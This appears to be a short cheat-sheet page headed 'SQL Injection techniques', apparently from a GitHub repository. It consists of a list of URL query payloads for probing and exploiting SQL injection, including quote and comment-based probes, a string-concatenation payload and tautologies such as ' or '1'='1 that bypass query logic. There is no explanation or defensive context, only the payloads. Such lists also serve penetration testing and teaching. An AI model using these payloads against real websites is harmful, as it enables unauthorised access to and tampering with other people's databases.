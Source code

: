 # SQL Injection techniques


* /?q=1
* /?q=1'
* /?q=1"
* /?q=[1]
* /?q[]=1
* /?q=1`
* /?q=1\
* /?q=1/*'*/
* /?q=1/*!1111'*/
* /?q=1'||'asd'||'   <== concat string
* /?q=1' or '1'='1
* /?q=1 or 1=1
* /?q='or''='